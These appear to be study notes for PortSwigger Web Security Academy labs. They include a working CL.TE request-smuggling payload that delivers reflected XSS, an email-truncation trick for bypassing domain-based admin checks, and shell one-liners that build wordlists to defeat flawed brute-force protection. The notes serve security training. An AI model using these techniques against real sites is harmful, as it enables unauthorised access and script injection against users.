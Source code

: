 For CL.TE you don't have to use HTTP request smuggler extension but clicking the gear icon and turning on `update content length` is enough.

working payload:
```html
POST / HTTP/1.1
Host: 0a0d00f5041e114f80bf948800f20081.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Transfer-Encoding: chunked
0

GET /post?postId=5
HTTP/1.1
User-Agent: "/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
x=1
```

[Lab: Exploiting HTTP request smuggling to deliver reflected XSS](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss)

#### Authentication Bypass

##### email domain
Indicator: Registration form with a message that implies a specific email domain has access to the admin panel. 

When the server incorrectly handles a long email, you can register an email like example-super-long@subdomain.com.attacker.com. If the attacker.com part gets cut off, your registered email will have the subdomain.com email domain on their end.

[Lab: Inconsistent handling of exceptional input](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-inconsistent-handling-of-exceptional-input)

#### Brute forcing

##### Flawed brute force protection

Indicator:  
Rate limit is in place but a successful login resets it.

Create a custom wordlist:
```bash
for i in {1..50}; do echo "carlos"; echo "carlos"; echo "wiener"; done > carlos.dict
```

Modify the [password wordlist](https://portswigger.net/web-security/authentication/auth-lab-passwords):
```bash
awk '{print; if (NR % 2 == 0) print "peter";}' pass.dict > pass2.dict
```
(`peter` appears after every second line)

Use Pitchfork attack in Intruder.
